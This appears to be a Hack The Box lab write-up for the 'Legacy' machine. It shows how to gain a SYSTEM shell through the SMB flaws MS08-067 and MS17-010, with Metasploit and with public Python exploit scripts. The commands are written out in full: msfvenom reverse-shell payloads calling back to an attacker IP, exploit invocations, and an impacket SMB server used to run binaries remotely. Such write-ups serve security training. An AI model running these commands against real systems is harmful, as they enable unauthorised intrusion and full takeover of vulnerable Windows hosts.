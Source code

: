 ```yaml
---
title: Legacy [HTB] 
date: 2020-10-27 18:08:00 +/- 0000
categories: [Writeup, Hack_The_Box]
tags: [Walkthrough, HTB, ms17-010, ms08-067, SMB, Metasploit]
headline: HTB Legacy machine Metasploit and manual (script) exploitation.
image: /assets/img/leg/leg1.png
---
```


Exploiting the SMB service on a Windows machine to achieve a system shell.

## Enumeration

```shell
nmap $ip
```

![pic](/assets/img/leg/leg2.png)

```shell
nmap --script smb-vuln* -p 139,445 $ip
```

![pic](/assets/img/leg/leg3.png)

The SMB service appears vulnerable to 2 well know exploits, MS08-067 and MS17-010 (Eternal Blue)

## MS08-067 Metasploit

```shell
search ms08-067
```

![pic](/assets/img/leg/leg4.png)

## MS17-010 Metasploit

![pic](/assets/img/leg/leg5.png)

```shell
search MS17-010
```

![pic](/assets/img/leg/leg6.png)

## MS08-067 Python Script

There are a fair few scripts for this vuln, but this one is pretty solid: <https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py>.

Create the payload.
```shell
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.63 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows
```

Start a NetCat listener on port 443 and execute the script as per the exploit instructions.
```shell
python ms08-067.py $ip 6 445
```

![pic](/assets/img/leg/leg7.png)

I get my shell.

![pic](/assets/img/leg/leg8.png)

I know that I'm NT AUTHORITY\SYSTEM, but how to prove it without Curl or Certutil? I have just exploited SMB, so that's the answer. I had transferred files with Samba before, but this was the first time I had executed code remotely/locally with SMB. Start the Samba server in the ***/usr/share/windows-resources/binaries*** directory and you can use SMB to run the binary on the target computer.

Attacking machine:

```shell
python3 /usr/share/doc/python3-impacket/examples/smbserver.py Samba . -smb2support
```

Target machine:

```shell
\\10.10.14.63\Samba\whoami.exe
```

## MS17-010 Python Script

Of the many scripts for the Eternal Blue exploit, this one has treated me the best: <https://github.com/helviojunior/MS17-010>. This script will retrieve a file from your machine and execute it, so a file with a payload needs to be created.

```shell
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.63 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o blue.exe
```

Run the send_and_execute script.

```shell
python send_and_execute.py 10.129.28.7 blue.exe
```

![pic](/assets/img/leg/leg9.png)

System shell.

![pic](/assets/img/leg/leg10.png)

Link to the video: <https://youtu.be/b4Zly0kh6Bo>

M0nkey out.
